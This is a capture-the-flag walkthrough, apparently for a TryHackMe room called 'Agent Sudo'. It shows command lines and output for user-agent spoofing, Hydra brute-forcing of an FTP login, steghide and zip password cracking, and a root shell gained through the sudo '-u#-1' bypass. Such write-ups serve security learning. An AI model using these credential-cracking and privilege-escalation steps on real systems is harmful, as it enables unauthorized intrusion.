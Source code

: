 # what I learn
- binwalk
# enumerate
- 21/tcp open  ftp
- 22/tcp open  ssh
- 80/tcp open  http
```
Dear agents,

Use your own codename as user-agent to access the site.

From,
Agent R 
```
change user-agent: to R (I used burp suite to capture my request -> edit -> forward it)
```
What are you doing! Are you one of the 25 employees? If not, I going to report this incident
```
25 employees? like alphabet? so let start from A
```
Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,
Agent R
```
We know that agent C's (chirs) password is weak, and he have something to do with agent J. I try to get page for `user agent: J` not thing pop up..


We know that Chris pass word is weak, let use Hydra to crack FTP.
```console
bibo318@parrot:~$ hydra -f -l chris -P /usr/share/wordlists/rockyou.txt $IP ftp
```
now log in as Chris
```console
bibo318@parrot:~/THM/agent$ ftp $IP
Connected to 10.10.142.53.
220 (vsFTPd 3.0.3)
Name (10.10.142.53:kali): chris
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
```
get all the files !!
```console
bibo318@parrot:~/THM/agent$ cat To_agentJ.txt 
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```
as the message said agent J's login password is somehow stored in the **fake picture**. So I have no choice than try to brute force steghide on the pictures. I found a simple bash script [here](https://gist.github.com/itsecurityco/503970852ac47cd6a3b356590d824a2c) which can be use to brute forcing steghid. copy the script and make it executable (``chmod +x``). Now run the script.

```console
bibo318@parrot:~/THM/agent$ ../../script/steghidebf.sh cutie.png /usr/share/wordlists/rockyou.txt 
Steghide Bruteforce (c) 2017 by Juan Escobar
stegofile: cutie.png
wordlist:  /usr/share/wordlists/rockyou.txt

[+] Information obtained with passphrase: '123456'
steghide: the file format of the file "cutie.png" is not supported.
```
it didnt works... why?
```console
bibo318@parrot:~/THM/agent$ file cutie.png 
cutie.png: PNG image data, 528 x 528, 8-bit colormap, non-interlaced
bibo318@parrot:~/THM/agent$ binwalk cutie.png 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```
ahaaa that what Chris mean with **fake picture**, this file included a zip file. let use `binwalk` to extrack the hidden files.
```console
bibo318@parrot:~/THM/agent$ binwalk -e cutie.png 
bibo318@parrot:~/THM/agent$ ls
cute-alien.jpg  cutie.png  _cutie.png.extracted  To_agentJ.txt
bibo318@parrot:~/THM/agent$ ls _cutie.png.extracted/
365  365.zlib  8702.zip  To_agentR.txt
```
we need password to be able to extract the *.zip*. we will use `zip2john` to convert it to hash format then use `john` to crack it
```console
bibo318@kali:~# zip2john /home/kali/THM/agent/_cutie.png.extracted/8702.zip > /home/kali/THM/agent/zip2john.txt
bibo318@kali:~# john -wordlist=/usr/share/wordlists/rockyou.txt /home/kali/THM/agent/zip2john.txt
```
I got the password and tried to extract the zip it with `xarchiver` but got error. let try with 7z
```console
bibo318@parrot:~/THM/agent/_cutie.png.extracted$ 7z e 8702.zip 

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.utf8,Utf16=on,HugeFiles=on,64 bits,4 CPUs Intel(R) Core(TM) i7-7820HQ CPU @ 2.90GHz (906E9),ASM,AES-NI)

Scanning the drive for archives:
1 file, 280 bytes (1 KiB)

Extracting archive: 8702.zip
--
Path = 8702.zip
Type = zip
Physical Size = 280

    
Would you like to replace the existing file:
  Path:     ./To_agentR.txt
  Size:     86 bytes (1 KiB)
  Modified: 2019-10-29 08:29:11
with the file from archive:
  Path:     To_agentR.txt
  Size:     86 bytes (1 KiB)
  Modified: 2019-10-29 08:29:11
? (Y)es / (N)o / (A)lways / (S)kip all / A(u)to rename all / (Q)uit? A

                    
Enter password (will not be echoed):
Everything is Ok    

Size:       86
Compressed: 280
bibo318@parrot:~/THM/agent/_cutie.png.extracted$ ls
 365   365.zlib   8702  '8702-(1)'   8702.zip   To_agentR.txt
bibo318@parrot:~/THM/agent/_cutie.png.extracted$ cat To_agentR.txt 
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```
use CyberChef magic `QXJlYTUx` -> bas64 -> <password>
```console
bibo318@parrot:~/THM/agent$ steghide extract -sf cute-alien.jpg 
Enter passphrase: 
wrote extracted data to "message.txt".
bibo318@parrot:~/THM/agent$ cat message.txt 
Hi <username>,

Glad you find this message. Your login password is <password>

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```
ssh to the server and get the flag


to another task, you need to use `scp` or `python` toget the picture and image search it in google, (check hint if ya stuck).
# root
sine the room call `Agent sudo`, so far we didnt do anything with sudo yet. and I know a CVE for sudo which effect sudo versions < **1.8.28**. let check version:
```console
james@agent-sudo:~$ sudo -V
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```
BING GO! read more about it [here](sudovulnsbypass.md). let exploit it:
```console
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~#
```
